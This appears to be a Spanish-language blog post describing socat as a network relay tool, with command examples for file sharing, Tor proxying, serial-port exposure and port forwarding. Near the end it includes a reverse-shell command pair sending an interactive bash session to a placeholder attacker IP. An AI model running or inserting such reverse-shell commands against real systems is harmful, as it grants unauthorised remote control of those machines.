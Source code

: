 ```yaml
---
title: socat - Multipurpose relay
date: 2025-07-15 00:00:00 +0200
categories: [software, herramientas]
tags: [herramientas, socat]     # TAG names should always be lowercase
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/1/15/Cat_August_2010-4.jpg/1920px-Cat_August_2010-4.jpg
    alt: 
---
```

# Socat
[](http://www.dest-unreach.org/socat/)

Socat actúa como un relay (retransmisor) o intermediario entre dos flujos de datos, que pueden ser:
- sockets TCP o UDP
- archivos
- pseudoterminales
- dispositivos seriales
- procesos, etc.

Es como un fontanero, capaz de conectar todo tipo de cosas entre sí. 
La página oficial del proyecto es esta dest-unreach.org/socat 

## Ejemplos uso

Compartir un archivo:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork FILE:/ruta/al/archivo.txt
``` 

Conectar una aplicación que no soporta proxies a través de TOR:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork SOCKS5:127.0.0.1:irc.hidden.onion:6667,socksport=9050
```

Exponer un puerto serie (USB) por red

``` shell
socat TCP-LISTEN:5000,reuseaddr,fork FILE:/dev/ttyUSB0,raw,echo=0
```

Simular una conexión
``` shell
socat TCP:192.168.1.210:21 -
```

Redireccionar un puerto 

``` shell
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80,sourceport=12345
```

Reverse Shell (escucha)

``` shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP:<IP_DEL_ATACANTE>:4444
```

Reverse Shell (cliente/atacante)

``` shell
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444,reuseaddr
``` 

Parece que Socat podría convertirse en el sucesor legítimo de Netcat llamado "la navaja suiza de los hackers", pues Socat es más complejo y 
avanzado y tiene más funcionalidades.  

Socat puede ser una buena herramienta para resolver problemas de red y una buena solución "in situ" para resolver tareas que de otra manera requerían la instación de software adicional, servidores o middelware, etc. 


